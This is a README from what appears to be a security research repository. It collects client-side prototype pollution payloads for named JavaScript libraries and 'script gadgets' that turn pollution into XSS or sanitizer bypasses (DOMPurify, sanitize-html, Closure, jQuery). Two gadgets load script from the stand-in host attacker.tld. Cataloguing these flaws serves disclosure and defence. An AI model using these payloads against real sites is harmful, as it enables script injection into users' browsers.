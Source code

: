# Client-Side Prototype Pollution

## Intro

If you are unfamiliar with Prototype Pollution Attack, you should read the following first:  
[JavaScript prototype pollution attack in NodeJS](https://github.com/HoLyVieR/prototype-pollution-nsec18/blob/master/paper/JavaScript_prototype_pollution_attack_in_NodeJS.pdf) by Olivier Arteau  
[Prototype pollution – and bypassing client-side HTML sanitizers](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) by Michał Bentkowski

In this repository, I am trying to collect examples of libraries that are vulnerable to Prototype Pollution due to `document.location` parsing and useful script gadgets that can be used to demonstrate the impact.

## Prototype Pollution

| Name                                                    | Payload                                                                  | Refs                                        | Found by                                         |
|---------------------------------------------------------|--------------------------------------------------------------------------|---------------------------------------------|--------------------------------------------------|
| Wistia Embedded Video (**Fixed**)                       | `?__proto__[test]=test`<br>`?__proto__.test=test`                        | [[1]](https://hackerone.com/reports/986386) | [William Bowling](https://twitter.com/wcbowling) |
| [jQuery query-object plugin](/pp/jquery-query-object.md)| `?__proto__[test]=test`<br>`#__proto__[test]=test`                       |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [jQuery Sparkle](/pp/jquery-sparkle.md)                 | `?__proto__.test=test`                                                   |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [V4Fire Core Library](/pp/v4fire-core.md)               | `?__proto__.test=test`<br>`?__proto__[test]=test`                        |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [backbone-query-parameters](/pp/backbone-qp.md)         | `?__proto__.test=test`                                                   |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [jQuery BBQ](/pp/jquery-bbq.md)                         | `?__proto__[test]=test`                                                  |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |
| [jquery-deparam](/pp/jquery-deparam.md)                 | `?__proto__[test]=test`                                                  |                                             | [Sergey Bobrov](https://twitter.com/Black2Fan)   |

## Script Gadgets

| Name                                                    | Payload                                                                       | Impact            | Refs                                              | Found by                                            |
|---------------------------------------------------------|-------------------------------------------------------------------------------|-------------------|---------------------------------------------------|-----------------------------------------------------|
| [Wistia Embedded Video](/gadgets/wistia-video.md)       | `?__proto__[innerHTML]=<img/src/onerror=alert(1)>`                            | XSS               | [[1]](https://hackerone.com/reports/986386)       | [William Bowling](https://twitter.com/wcbowling)    |
| [jQuery $.get >= 3.0.0](/gadgets/jquery.md)             | `?__proto__[url][]=data:,alert(1)//&__proto__[dataType]=script`               | XSS               |                                                   | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [jQuery $.getScript >= 3.4.0](/gadgets/jquery.md)       | `?__proto__[src][]=data:,alert(1)//`                                          | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)               |
| [$.getScript jQuery == 3.3.1](/gadgets/jquery.md)       | `?__proto__.url=data:,alert(1337)//`                                          | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)
| [Google Recaptcha](/gadgets/recaptcha.md)               | `__proto__[srcdoc][]=<script>alert(document.domain)</script>`                 | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)
| [Twitter Universal Website Tag](/gadgets/twitter-uwt.md)| `?__proto__[hif][]=javascript:alert(1)`                                       | XSS               |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Tealium Universal Tag](/gadgets/tealium-utag.md)       | `?__proto__[attrs][src]=1&__proto__[src]=//attacker.tld/js.js`                | XSS               |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
| [Akamai Boomerang](/gadgets/akamai-boomerang.md)        | `?__proto__[BOOMR]=1&__proto__[url]=//attacker.tld/js.js`                     | XSS               |                                                   | [s1r1us](https://twitter.com/S1r1u5_)               |
| [Lodash <= 4.17.15](/gadgets/lodash.md)                 | `?__proto__[sourceURL]=%E2%80%A8%E2%80%A9alert(1)`                            | XSS               | [[1]](https://github.com/lodash/lodash/pull/4518) | [Alex Brasetvik](https://twitter.com/alexbrasetvik) |
| [sanitize-html](/gadgets/sanitize-html.md)              | `?__proto__[*][]=onload`                                                      | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [js-xss](/gadgets/js-xss.md)                            | `?__proto__[whiteList][img][0]=onerror&__proto__[whiteList][img][1]=src`      | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [DOMPurify <= 2.0.12](/gadgets/dompurify.md)            | `?__proto__[ALLOWED_ATTR][0]=onerror&__proto__[ALLOWED_ATTR][1]=src`          | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [DOMPurify <= 2.0.12](/gadgets/dompurify.md)            | `?__proto__[documentMode]=9`                                                  | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [Closure](/gadgets/closure.md)                          | `?__proto__[*%20ONERROR]=1&__proto__[*%20SRC]=1`                              | Bypass            | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [Closure](/gadgets/closure.md)                          | `?__proto__[CLOSURE_BASE_PATH]=data:,alert(1)//`                              | XSS               | [[1]](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) | [Michał Bentkowski](https://twitter.com/SecurityMB) |
| [Marionette.js / Backbone.js](/gadgets/marionette.md)   | `?__proto__[tagName]=img&__proto__[src][]=x:&__proto__[onerror][]=alert(1)`   | XSS               |                                                   | [Sergey Bobrov](https://twitter.com/Black2Fan)      |
